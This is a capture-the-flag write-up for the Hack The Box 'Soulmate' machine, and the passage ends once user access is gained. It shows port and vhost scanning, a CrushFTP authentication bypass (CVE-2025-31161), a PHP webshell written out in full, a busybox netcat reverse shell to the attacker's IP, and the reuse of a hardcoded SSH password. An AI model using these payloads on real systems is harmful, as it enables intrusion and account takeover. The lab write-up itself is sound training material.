


## Initial Port Scanning

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Soulmate - Find Your Perfect Match
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Findings:

- SSH (OpenSSH 8.9p1) on port 22
- HTTP (nginx 1.18.0) on port 80
- TTL of 63 indicates Linux System one hop way

### DNS Configuration

``` python
echo "10.129.231.23 soulmate.htb" | sudo tee -a /etc/hosts
```


### Gobuster Vhost

``` python
☠  hyperc /mnt/c/Users/cesar/HTB/Machines/Soulmate ➜  gobuster vhost --wordlist=/usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://$domain -o Output_Gobuster_vhos.txt --append-domain
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                       http://soulmate.htb
[+] Method:                    GET
[+] Threads:                   10
[+] Wordlist:                  /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:                gobuster/3.8
[+] Timeout:                   10s
[+] Append Domain:             true
[+] Exclude Hostname Length:   false
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
ftp.soulmate.htb Status: 302 [Size: 0] [--> /WebInterface/login.html]
```

Let's add this to our hosts file as well:

``` python
echo "10.129.231.23 ftp.soulmate.htb" | sudo tee -a /etc/hosts
```


If we review the page's source code, we can find this:

``` python
/WebInterface/new-ui/sw.js?v=11.W.657-2025_03_08_07_52
```

This is CrushFTP WebInterface:

``` python
CrushFTP 11
Build W.657
Fecha Build: 2025_03_08_07_52
```

``` python
☠  hyperc /mnt/c/Users/cesar/HTB/Machines/Soulmate ➜  searchsploit crushftp
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                 |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
CrushFTP 11.3.1 - Authentication Bypass                                                                                                                                        | multiple/remote/52295.py
CrushFTP 7.2.0 - Multiple Vulnerabilities                                                                                                                                      | multiple/webapps/36126.txt
CrushFTP < 11.1.0 - Directory Traversal                                                                                                                                        | multiple/remote/52012.py
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```



## Exploiting CVE-2025-31161

``` c++
☠  hyperc /mnt/c/Users/cesar/HTB/Machines/Soulmate/CVE-2025-31161 ➜  ls
CVE-2025-31161.sh  LICENSE  README.md  requirements.txt  venv

☠  hyperc /mnt/c/Users/cesar/HTB/Machines/Soulmate/CVE-2025-31161 ➜  ./CVE-2025-31161.sh -h

[!] Option no valid... check...


[+] Usage: ././CVE-2025-31161.sh --url <http://target.com> --port <PORT> --target-user <admin_user> --new-user <new_user> --new-password <password>

[?] Parameters description:

        --url            Target base URL (e.g., http://target)
        --port           Port where CrushFTP is running
        --target-user    Valid or invalid username (e.g., crushadmin)
        --new-user       Username to be created (e.g., Pwn3d)
        --new-password   Password for the new user
        --help           Show this help panel

[i] Example: bash ././CVE-2025-31161.sh --url http://target.com --port 80 --target-user crushadmin --new-user evilUser --new-password pass12345


☠  hyperc /mnt/c/Users/cesar/HTB/Machines/Soulmate/CVE-2025-31161 ➜  ./CVE-2025-31161.sh --url http://ftp.soulmate.htb/ --port 80 --target-user crushadmin --new-user cesar --new-password cesar

[*] Checking if the server is online... Waiting...

[*] Server is online. Starting preparation phase...
[*] Generating dynamic CrushAuth token...
[i] CrushAuth generated: 2754074705179_80KKbck3mNGkQzWVki7R7yA3kz8060
[*] Sending warm-up request to the server...
[*] Sending user creation payload for 'cesar'...

[>] User successfully created: cesar
[*] Credentials:
        Username: cesar
        Password: cesar
```


I review **Admin**, then **User Manager**:


Here we can see that the user **ben** has the webProd folder, and inside it are login.php, profile.php, etc. What's shown there s what's displayed in soulmate.htb

Generate a webshell.php

``` python
echo '<?php if(isset($_REQUEST["cmd"])){ echo "<pre>"; $cmd = $_REQUEST["cmd"]; system($cmd); echo "</pre>"; die; } ?>' > webshell.php
```

Then we change the ben's password.

]



Now i'm logging in to user ben


Here submit the webshell.php


Now in http://soulmate.htb/webshell.php


With Curl

``` python

☠  hyperc /mnt/c/Users/cesar/HTB/Machines/Soulmate ➜  curl "http://soulmate.htb/webshell.php?cmd=id"
<pre>uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```

## Rev Shell

Link: https://www.revshells.com/

``` python
☠  hyperc /mnt/c/Users/cesar/HTB/Machines/Soulmate ➜  curl "http://soulmate.htb/webshell.php?cmd=busybox%20nc%2010.10.14.38%20443%20-e%20%2Fbin%2Fsh"
```

### Penelope 443

``` python
☠  hyperc /mnt/c/Users/cesar/HTB/Machines/Soulmate ➜  python3 /mnt/c/Users/cesar/HTB/penelope/penelope.py -p 443
[+] Listening for reverse shells on 0.0.0.0:443 →  127.0.0.1 • 10.10.14.38
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] Got reverse shell from soulmate~10.129.231.23-Linux-x86_64 😍️ Assigned SessionID <1>
[+] Attempting to upgrade shell to PTY...
[+] Shell upgraded successfully using /usr/bin/python3! 💪
[+] Interacting with session [1] • Shell Type PTY • Menu key F12 ⇐
[+] Logging to /home/hyperc/.penelope/sessions/soulmate~10.129.231.23-Linux-x86_64/2026_02_20-17_57_13-649.log 📜
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
www-data@soulmate:~/soulmate.htb/public$
```

## User

``` python
www-data@soulmate:~/soulmate.htb$ ps aux | grep -i erlang
root        1144  0.0  1.6 2252024 66160 ?       Ssl  20:58   0:03 /usr/local/lib/erlang_login/start.escript -B -- -root /usr/local/lib/erlang -bindir /usr/local/lib/erlang/erts-15.2.5/bin -progname erl -- -home /root -- -noshell -boot no_dot_erlang -sname ssh_runner -run escript start -- -- -kernel inet_dist_use_interface {127,0,0,1} -- -extra /usr/local/lib/erlang_login/start.escript
www-data    2896  0.0  0.0   6960  2068 pts/0    S+   23:26   0:00 grep -i erlang
www-data@soulmate:~/soulmate.htb$
```

This is a critical encounter because network processes like root have elevated privileges.

### Investigating Erlang Service

``` python
www-data@soulmate:~/soulmate.htb$ ls /usr/local/lib/erlang_login/
login.escript  start.escript
www-data@soulmate:~/soulmate.htb$ cat /usr/local/lib/erlang_login/start.escript
#!/usr/bin/env escript
%%! -sname ssh_runner

main(_) ->
    application:start(asn1),
    application:start(crypto),
    application:start(public_key),
    application:start(ssh),

    io:format("Starting SSH daemon with logging...~n"),

    case ssh:daemon(2222, [
        {ip, {127,0,0,1}},
        {system_dir, "/etc/ssh"},

        {user_dir_fun, fun(User) ->
            Dir = filename:join("/home", User),
            io:format("Resolving user_dir for ~p: ~s/.ssh~n", [User, Dir]),
            filename:join(Dir, ".ssh")
        end},

        {connectfun, fun(User, PeerAddr, Method) ->
            io:format("Auth success for user: ~p from ~p via ~p~n",
                      [User, PeerAddr, Method]),
            true
        end},

        {failfun, fun(User, PeerAddr, Reason) ->
            io:format("Auth failed for user: ~p from ~p, reason: ~p~n",
                      [User, PeerAddr, Reason]),
            true
        end},

        {auth_methods, "publickey,password"},

        {user_passwords, [{"ben", "HouseH0ldings998"}]},
        {idle_time, infinity},
        {max_channels, 10},
        {max_sessions, 10},
        {parallel_login, true}
    ]) of
        {ok, _Pid} ->
            io:format("SSH daemon running on port 2222. Press Ctrl+C to exit.~n");
        {error, Reason} ->
            io:format("Failed to start SSH daemon: ~p~n", [Reason])
    end,

    receive
        stop -> ok
    end.
www-data@soulmate:~/soulmate.htb$
```

Credential Discovery: Hardcoded password for user ben found in the Erlang script (start.escript)

``` python
ben:HouseH0ldings998
```

``` python
www-data@soulmate:~/soulmate.htb$ su - ben
Password: HouseH0ldings998
ben@soulmate:~$ whoami
ben
ben@soulmate:~$ id
uid=1000(ben) gid=1000(ben) groups=1000(ben)
```


